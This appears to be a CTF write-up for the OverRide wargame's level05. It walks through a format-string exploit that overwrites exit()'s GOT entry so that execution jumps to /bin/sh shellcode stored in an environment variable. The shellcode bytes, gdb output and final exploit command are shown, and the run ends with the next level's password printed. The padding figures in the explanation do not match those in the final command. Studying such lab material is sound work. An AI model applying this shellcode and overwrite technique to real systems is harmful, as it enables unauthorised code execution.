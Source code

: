 #level05

we start insvestigating the binary we found that it use the function printf() to print the argument with a format string.

```bash
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
```

```bash
AAAA %x %x %x %X %x %x %x %x %X %x %x %x %x %X %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6bf ffffd6be 0 ffffffff ffffd744 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825
```

By utilizing the format string vulnerability, we have the ability to both read and write to the stack. This enables us to overwrite the address of the exit() function with a shellcode's address that we store in an environment variable.

```bash
export SHELLCODE=$(python -c 'print "\x90"*100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

let find the adress of the shellcode in the stack

```bash
(gdb) x/2s *((char **)environ)
0xffffd83d:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
0xffffd8c1:	 "TERM=xterm-256color"
(gdb) x/2s 0xffffd83d+20
0xffffd851:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
0xffffd8c1:	 "TERM=xterm-256color"
```

To proceed, we need to determine the address of the exit() function in the Global Offset Table (GOT). We can achieve this by disassembling the main() function and subsequently examining the disassembly of the exit() function. After analysis, we find that the address of the exit() function in the GOT is 0x80497e0.

Additionally, in the stack, we have already stored the address 0xffffd851, which points to the location of our shellcode.

```bash
0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

Instead of writing the decimal value 4, we want to write the hexadecimal value 0xffffd851. However, there are two issues with directly writing this value. Firstly, writing 4 characters as input means writing "4" at a specific memory address. To write 0xffffd851, we would need to write 4294957137 (0xffffd851 in decimal) characters, which is practically impossible.

To overcome this, we can use a trick. The format we'll use is "AAAA%<value-4>x%7$n" (where value-4 is used because we have already written 4 bytes, represented by AAAA). For example, if we use "AAAA%96x%7$n," it will write the value 100 at the address 0x41414141. This works because "%100x" pads the argument with 100 bytes, which are spaces by default.

The second issue is that we don't want to write a long integer (4 bytes) directly because writing 4294957137 (the length of the value) characters to the standard output would take forever. Instead, we'll write two short integers (2 bytes) using the "%hn" specifier.

Let's break down the steps:

We want to write the value 0xffffd851, which means 0xffff (65535 in decimal) in the high-order bytes and 0xd851 (55377 in decimal) in the low-order bytes.
We want to write these values at memory address 0x80497e0. So, we write 0xffff at address 0x80497e0 + 2 (high-order) and 0xd851 at address 0x80497e0 (low-order).
To determine the value to set for padding, we use the formula: [The value we want] - [The bytes already written] = [The value to set].
Let's start with the low-order bytes:
Value to set = 55377 - 8 (because we have already written 8 bytes) = 55369.

Now, the high-order bytes:
Value to set = 65535 - 55377 (because we have already written 55377 bytes) = 10158.

Now we can construct the exploit as follows:
\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1]+ "%55369x%10$hn%10158x%11$hn"

Here's the breakdown:

`"\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1]` represents the addresses in reverse order (0x80497e0 and 0x80497e2).

`"%55369x%10$hn"` will write 55369 bytes to the standard output, which corresponds to the low-order bytes at the first address (0xffffd851).

`"%10158x%11$hn"` will write 10158 bytes to the standard output, which corresponds to the high-order bytes at the second address (0xffffd851).

This exploit takes advantage of these calculations to write the desired values at the specified memory addresses.

0xffff is 65535 heigh order bits
0xd851 is 55377 low order bits

the 10th argument where we can write

got of exit() = 0x80497e0 0x80497e2


```bash
level05@OverRide:~$ python -c 'print "\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1]+ "%57144x%10$hn%8383x%11$hn"'>exploit
level05@OverRide:~$ (cat exploit;cat) | ./level05
whoami
level06
cd ../level06
cat .pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
